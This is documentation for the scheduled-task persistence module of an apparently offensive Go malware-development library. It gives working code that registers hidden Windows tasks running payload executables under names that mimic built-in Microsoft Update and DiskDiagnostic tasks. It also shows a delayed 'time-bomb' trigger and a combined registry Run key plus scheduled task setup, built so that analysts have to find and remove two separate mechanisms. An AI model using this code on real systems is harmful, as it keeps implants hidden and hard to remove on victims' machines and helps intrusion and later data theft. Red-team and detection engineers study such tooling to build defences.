

# Task Scheduler Persistence

[<- Back to Persistence Overview](README.md)

**MITRE ATT&CK:** [T1053.005 - Scheduled Task/Job: Scheduled Task](https://attack.mitre.org/techniques/T1053/005/)
**Package:** `persistence/scheduler`
**Platform:** Windows
**Detection:** Medium

---

## Primer

Windows Task Scheduler can run programs on triggers like logon, system startup, or daily schedules. Creating a scheduled task ensures the payload runs even if the user cleans the Startup folder or registry Run keys.

---

## How It Works



**Trigger types:**
- `TriggerLogon` — runs at user logon (requires elevation)
- `TriggerStartup` — runs at system boot (requires elevation)
- `TriggerDaily` — runs daily at a fixed time

---

## Usage

```go
import "github.com/oioio-space/maldev/persistence/scheduler"

err := scheduler.Create(`\Microsoft\Windows\Update\Check`,
    scheduler.WithAction(`C:\Temp\payload.exe`, "--silent"),
    scheduler.WithTriggerLogon(),
    scheduler.WithHidden(),
)

found, _ := scheduler.Exists(`\Microsoft\Windows\Update\Check`)

err = scheduler.Delete(`\Microsoft\Windows\Update\Check`)
```

---

## Advanced — Daily Trigger + Timed One-Shot

`WithTriggerDaily` fires every N days at a configurable offset; combine it
with `WithTriggerTime` for a one-shot future execution (useful for a
time-bomb). `List()` and `Run()` round out the management surface.

```go
import (
    "log"
    "time"

    "github.com/oioio-space/maldev/persistence/scheduler"
)

// Daily at 08:30 — disguised as a Windows Update check.
err := scheduler.Create(`\Microsoft\Windows\Update\Check`,
    scheduler.WithAction(`C:\ProgramData\Intel\agent.exe`, "--silent"),
    scheduler.WithTriggerDaily(1),
    scheduler.WithHidden(),
)
if err != nil {
    log.Fatal(err)
}

// One-shot: fire in 24 hours (time-bomb / delayed payload).
err = scheduler.Create(`\Microsoft\Windows\Update\Once`,
    scheduler.WithAction(`C:\ProgramData\Intel\agent.exe`, "--once"),
    scheduler.WithTriggerTime(time.Now().Add(24*time.Hour)),
    scheduler.WithHidden(),
)

// Enumerate all tasks — useful for cleanup before exfil.
tasks, _ := scheduler.List()
for _, t := range tasks {
    log.Printf("%-60s  %s", t.Name, t.Path)
}
```

---

## Combined Example — Task + Registry Dual-Persistence

Register two independent persistence mechanisms so removing one doesn't
kill the implant.

```go
package main

import (
    "log"

    "github.com/oioio-space/maldev/persistence/registry"
    "github.com/oioio-space/maldev/persistence/scheduler"
)

const (
    payload  = `C:\ProgramData\Microsoft\Windows\Caches\mscache.exe`
    taskName = `\Microsoft\Windows\DiskDiagnostic\Microsoft-Windows-DiskDiagnosticDataCollector`
)

func main() {
    // 1. Registry Run key — fires on user logon without elevation.
    if err := registry.Set(
        registry.HiveCurrentUser, registry.KeyRun,
        "DiskDiagnostic", payload,
    ); err != nil {
        log.Printf("registry: %v", err)
    }

    // 2. Scheduled task hidden under a real Windows task path — fires at
    //    system startup (requires admin) so it covers sessions before
    //    user logon.
    if err := scheduler.Create(taskName,
        scheduler.WithAction(payload, ""),
        scheduler.WithTriggerStartup(),
        scheduler.WithHidden(),
    ); err != nil {
        log.Printf("scheduler: %v", err)
    }

    // Both mechanisms point at the same payload; cleaning one still leaves
    // the other. The task name mimics a legitimate Windows diagnostic task.
}
```

Layered benefit: registry persistence covers normal user sessions; the
scheduled task covers SYSTEM-context startup and is hidden in a task path
that resembles a built-in Windows component — two independent kill-switches
the analyst must find and remove separately.

---

## API Reference

```go
// Task is one parsed schtasks /Query row.
type Task struct {
    Name    string
    Path    string
    Enabled bool
}

// Option configures Create. Zero or more may be passed; trigger
// options are mutually exclusive (last one wins).
type Option func(*options)

// WithAction sets the binary the task runs at trigger time.
func WithAction(path string, args ...string) Option

// Trigger options.
func WithTriggerLogon() Option
func WithTriggerStartup() Option
func WithTriggerDaily(interval int) Option   // every N days
func WithTriggerTime(t time.Time) Option     // one-shot at t

// WithHidden hides the task from non-elevated schtasks listings
// (sets the SCHED_FLAG_HIDDEN bit).
func WithHidden() Option

// Create registers a scheduled task. Wraps schtasks.exe under the hood.
func Create(name string, opts ...Option) error

// Delete removes the named task.
func Delete(name string) error

// Exists reports whether the named task is registered.
func Exists(name string) (bool, error)

// List enumerates registered tasks.
func List() ([]Task, error)

// Actions returns the configured action paths for the named task.
func Actions(name string) ([]string, error)

// Run forces an immediate one-off run of the named task.
func Run(name string) error

// ScheduledTask returns a persistence.Mechanism wrapping
// Create/Delete/Exists for use with persistence.Pipeline.
func ScheduledTask(name string, opts ...Option) *TaskMechanism

type TaskMechanism struct{ /* unexported */ }

func (m *TaskMechanism) Name() string
func (m *TaskMechanism) Install() error
func (m *TaskMechanism) Uninstall() error
func (m *TaskMechanism) Installed() (bool, error)
```

See also [persistence.md](../../persistence.md#persistencescheduler----task-scheduler) for the package summary row.
